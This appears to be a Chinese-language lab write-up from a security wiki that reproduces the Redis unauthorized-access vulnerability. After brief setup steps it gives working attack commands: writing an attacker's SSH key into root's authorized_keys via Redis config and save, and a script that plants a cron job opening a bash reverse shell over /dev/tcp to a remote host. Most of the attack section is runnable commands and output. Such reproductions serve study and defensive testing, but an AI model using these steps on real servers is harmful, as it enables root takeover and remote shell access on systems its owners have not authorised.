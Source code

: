 # Redis未授权访问漏洞

## 简介

redis是一个开源的存储系统，支持数据的持久化存储、支持key-value、list、set等数据结构存储，支持备份。

但若redis存在未授权访问，就会导致攻击者可以无需认证就能访问redis内部资源，获取敏感文件，甚至执行flushall清空数据，给root账户写入ssh公钥直接远程登录目的服务器。

## 环境搭建

```
wget https://download.redis.io/releases/redis-5.0.14.tar.gz
tar xvf redis-5.0.14.tar.gz
cd  redis-5.0.14
make -j 4
make install
```

直接运行redis-server

```
redis-server --protected-mode no
```

## 漏洞复现

```
root@l-virtual-machine:/opt# redis-cli -h 192.168.32.141
192.168.32.141:6379> keys *
(empty array)
```

![image-20220810110332694](../../.gitbook/assets/image-20220810110332694.png)

SSH私钥访问

```sh
$ ssh-keygen -t  rsa
$ (echo -e "  "; cat /root/.ssh/id_rsa.pub; echo -e "  ") > foo.txt
$ cat foo.txt | redis-cli -h 192.168.32.141 -x set test
$ redis-cli -h 192.168.32.141
$ 192.168.1.11:6379> config set dir /root/.ssh/
OK
$ 192.168.1.11:6379> config get dir
1) "dir"
2) "/root/.ssh"
$ 192.168.1.11:6379> config set dbfilename "authorized_keys"
OK
$ 192.168.1.11:6379> save
OK
```



反弹shell

> 此方法在ubuntu中因无法忽略乱码导致失败
>
> ![image-20220810112406540](../../.gitbook/assets/image-20220810112406540.png)

```sh
#shell.sh
echo -e "\n\n\n*/1 * * * * bash -i >&/dev/tcp/192.168.32.141/9999 0>&1\n\n\n"|redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /var/spool/cron/
redis-cli -h $1 -p $2 config set dbfilename root
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit
```

![image-20230129215349608](../../.gitbook/assets/image-20230129215349608.png)